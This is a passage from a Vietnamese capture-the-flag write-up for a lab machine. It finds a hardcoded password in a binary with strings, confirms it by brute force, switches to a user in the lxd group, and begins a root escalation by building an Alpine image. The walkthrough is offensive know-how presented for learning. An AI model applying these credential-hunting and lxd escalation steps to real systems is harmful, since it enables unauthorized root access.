 Thử strings ra xem có gì..

```shell
www-data@mrr3b0t:/var/www/bf$ strings buffer
/lib64/ld-linux-x86-64.so.2
libc.so.6
...
...
...
 Digite a senha:
MrR0b0t121
 Senha errada
 Senha Correta
Password@123
...
...
...
```

Có 1 chuỗi chứa từ khóa Password, khả năng đây là mật khẩu có thể dùng được. Nhưng vẫn chưa chắc chắn về điều này nên tôi cứng đầu bruteforce để tìm ra password cho thằng `exploiter`. Sau gần 3 ngày treo máy zui zui, kết quả tìm ra cũng chính là password mà mình nghi ngờ.

![exploiter password](https://ik.imagekit.io/dyl4n/assets/img/posts/mrr3b0t/exploiter-password.PNG)

```shell
www-data@mrr3b0t:/var/www/bf$ su exploiter
Password: Password@123

exploiter@mrr3b0t:/var/www/bf$
```

### Root

```shell
exploiter@mrr3b0t:~$ id
uid=1000(exploiter) gid=1000(exploiter) groups=1000(exploiter),24(cdrom),30(dip),46(plugdev),111(lxd),118(lpadmin),119(sambashare)
```

Check id thấy được user này thuộc group 111(lxd), được dùng để tạo và quản lý các containers của Linux. Quá là may, mình có thể leo root nhờ thằng user thuộc lxd group này. Có rất nhiều bài viết nói về trick này rồi, nên mình sẽ không giải thích nhiều (Đọc thêm [tại đây](https://systemweakness.com/linux-privilege-escalation-with-lxd-group-66ea1ac5dbbd){:target="\_blank"})

**Step 1**: Tạo image trên máy local

Clone [saghul/lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder){:target="\_blank"}, sau đó chạy file `lxd-alpine-builder/build-alpine` để tạo một image mới.

```shell
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$git clone https://github.com/saghul/lxd-alpine-builder
...
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$cd lxd-alpine-builder
┌──(kali㉿kali)-[~/lxd-alpine-builder]
└─$ sudo ./build-alpine
...
```
